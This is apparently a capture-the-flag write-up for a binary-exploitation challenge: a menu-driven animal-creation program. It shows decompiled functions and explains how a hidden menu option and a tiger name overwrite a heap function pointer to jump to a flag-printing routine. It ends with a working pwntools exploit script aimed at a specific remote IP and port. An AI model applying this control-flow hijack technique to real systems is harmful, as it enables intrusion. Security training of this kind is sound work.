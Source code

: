 Here we have a program with which we can create three types of animals (lion, tiger, bear).
The animals can be created with a menu and each animal has a type and a name.
A maximum of 4 animals can be created and animals can also be deleted. 

If we run the program we get something like :

	Welcome! I don't think we're in Kansas anymore.
	We're about to head off on an adventure!
	Select some animals you want to bring along.

	Menu Options:
	1: Bring a lion
	2: Bring a tiger
	3: Bring a bear
	4: Delete Animal
	5: Exit

	Enter your choice:
	$ 1
	Choose the type of lion you want:
	1: Congo Lion
	2: Barbary Lion
	$ 1
	Enter name of lion:
	$ SomeLionName

	Menu Options:
	1: Bring a lion
	2: Bring a tiger
	3: Bring a bear
	4: Delete Animal
	5: Exit

	...


If we open the code with IDA, we find this function to print the flag :

	__int64 l33tH4x0r()
	{
	  FILE *stream; // ST08_8@1
	  char s; // [sp+10h] [bp-40h]@1
	  __int64 v3; // [sp+48h] [bp-8h]@1

	  v3 = *MK_FP(__FS__, 40LL);
	  stream = fopen("flag.txt", "r");
	  fgets(&s, 50, stream);
	  puts(&s);
	  fflush(stdout);
	  fclose(stream);
	  return *MK_FP(__FS__, 40LL) ^ v3;
	}

We find in the assembly that its address is 0x40090D which will be useful later.

We also find that in the makeStuff function there is a call to pwnMe() :

	int makeStuff()
	{
	  int result; // eax@10
	  unsigned int v1; // [sp+Ch] [bp-4h]@1

	  puts("Enter your choice:");
	  fflush(stdout);
	  __isoc99_scanf(4198424LL, &v1);
	  getchar();
	  if ( v1 == 3 )
	  {
	    result = makeBear(4198424LL, &v1);
	  }
	  else if ( (signed int)v1 > 3 )
	  {
	    if ( v1 == 5 )
	      exit(0);
	    if ( (signed int)v1 >= 5 )
	    {
	      if ( v1 == 4919 )
	        pwnMe();   // <----- HERE -----
	LABEL_16:
	      printf("Invalid choice :(   %d\n", v1);
	      exit(0);
	    }
	    result = deleteAnimal(4198424LL, &v1);
	  }

	  ...

	}

This tells us that to call pwnMe, we need to choose the Menu Option 4919.

The pwnMe function looks like that :

	void __noreturn pwnMe()
	{
	  __int64 v0; // [sp+0h] [bp-10h]@1

	  v0 = (__int64)*(&pointers + bearOffset);
	  if ( *(_DWORD *)(v0 + 20) == 3 )
	    (*(void (**)(void))v0)();
	  exit(0);
	}

So if the 20th byte after the address v0 (v0[20]) is 3, the program calls the function
at the address written at v0 (the first word, so 4 bytes of v0).

If we can replace the first word of v0 with 0x40090D (the address of l33tH4x0r),
we can print the flag.

If we don't create any bear, v0 will point at the buffer at the first address in pointers.


Now let's look at makeTiger : 

	__int64 makeTiger()
	{
	  char *s; // ST08_8@1

	  s = (char *)malloc(0x18uLL);
	  *((_DWORD *)s + 5) = pickTigerType();
	  puts("Enter name of tiger:");
	  fflush(stdout);
	  fgets(s, 20, stdin);
	  *(&pointers + next) = s;
	  return (unsigned int)(next++ + 1);
	}

We see that when we create a Tiger, a buffer of 32 bytes is allocated and
the 5th word of the buffer is the tigerType.

The first address in pointers is then the address of this buffer because next is 0 initially.

So if we want to pwnMe to work, we need to choose 3 as the Tiger Type (the fifth word will be three,
so the 20th byte after &pointers will be also 3 and the function in v0 will be called).

We can also see that the name writes directly at the beginning of this buffer, so we can directly write
the address to jump to (0x40090D) as the name. However, since 0D is a carriage return, this will pose
problem in our script. We can still jump a little bit further so the address can be written to the program.
We chose to jump to the next address and this will still work since nothing much is done in the first instruction.
We will then jump to 0x40090E.

We can retrieve the flag with this python script :

	from pwn import *

	# the address to jump to to print the flag
	l33tH4x0r_addr = 0x40090E

	# remote interaction with the program
	with remote('104.155.227.252', 25050) as p:
		print p.recvuntil('choice:')
		p.sendline('2') # tiger
		print p.recvuntil('want:')
		p.sendline('3') # type
		print p.recvuntil('tiger:')
		p.sendline(p64(l33tH4x0r_addr))

		# pwnMe
		print p.recvuntil('choice:')
		p.sendline('4919')

		print p.recvall()